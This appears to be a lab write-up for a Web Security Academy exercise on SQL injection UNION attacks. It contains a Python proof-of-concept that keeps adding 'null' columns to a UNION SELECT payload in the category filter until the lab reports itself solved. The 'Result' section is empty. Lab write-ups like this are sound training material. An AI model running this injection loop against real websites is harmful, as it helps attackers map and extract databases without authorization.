

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Description
```
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")

attack_keyword = ""

while True:
    attack_payload = "Petss' union select null "+attack_keyword+"-- x"
    print(f"attack_payload : /filter?category={attack_payload}")
    burp0_url = f"https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/filter?category={attack_payload}"
    burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
    response = session.get(burp0_url, headers=burp0_headers)

    burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
    burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
    response = session.get(burp0_url, headers=burp0_headers)

    soup = BeautifulSoup(response.text, 'html.parser')
    status_p = soup.select_one('div.widgetcontainer-lab-status > p')
    status_text = status_p.text if status_p else "Status not found"
    print(f"Lab : {status_text}")
    if status_text == "Solved":
        break
    attack_keyword = attack_keyword + ",null "
```

## Result
